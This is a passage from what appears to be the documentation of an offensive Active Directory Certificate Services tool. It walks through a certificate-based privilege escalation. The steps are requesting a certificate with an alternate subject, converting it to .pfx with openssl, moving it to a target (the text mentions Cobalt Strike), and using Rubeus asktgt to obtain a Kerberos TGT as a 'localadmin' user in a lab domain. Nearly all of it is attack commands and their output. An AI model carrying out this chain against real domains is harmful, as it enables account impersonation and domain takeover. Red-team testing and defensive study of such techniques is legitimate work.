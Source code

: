     [*] CA Response             : The certificate had been issued.
    [*] Request ID              : 337

    [*] cert.pem         :

    -----BEGIN RSA PRIVATE KEY-----
    MIIEpAIBAAKCAQEAn8bKuwCYj8...
    -----END RSA PRIVATE KEY-----
    -----BEGIN CERTIFICATE-----
    MIIGITCCBQmgAwIBAgITVQAAAV...
    -----END CERTIFICATE-----


    [*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx



    Certify completed in 00:00:04.2127911


Copy the ` -----BEGIN RSA PRIVATE KEY----- ... -----END CERTIFICATE-----` section to a file on Linux/macOS, and run the openssl command to convert it to a .pfx. When prompted, don't enter a password:

    (base) laptop:~ harmj0y$ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
    Enter Export Password:
    Verifying - Enter Export Password:
    (base) laptop:~ harmj0y$


Finally, move the cert.pfx to your target machine filesystem (manually or through Cobalt Strike), and request a TGT for the `altname` user using Rubeus:

    C:\Temp>Rubeus.exe asktgt /user:localadmin /certificate:C:\Temp\cert.pfx

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.6.1

    [*] Action: Ask TGT

    [*] Using PKINIT with etype rc4_hmac and subject: CN=harmj0y, OU=TestOU, DC=theshire, DC=local
    [*] Building AS-REQ (w/ PKINIT preauth) for: 'theshire.local\localadmin'
    [+] TGT request successful!
    [*] base64(ticket.kirbi):

          doIFujCCBbagAwIBBaEDAgEWooIExzCC...(snip)...

      ServiceName           :  krbtgt/theshire.local
      ServiceRealm          :  THESHIRE.LOCAL
      UserName              :  localadmin
      UserRealm             :  THESHIRE.LOCAL
      StartTime             :  2/22/2021 2:06:51 PM
      EndTime               :  2/22/2021 3:06:51 PM
      RenewTill             :  3/1/2021 2:06:51 PM
      Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
      KeyType               :  rc4_hmac
      Base64(key)           :  Etb5WPFWeMbsZr2+FQQQMw==

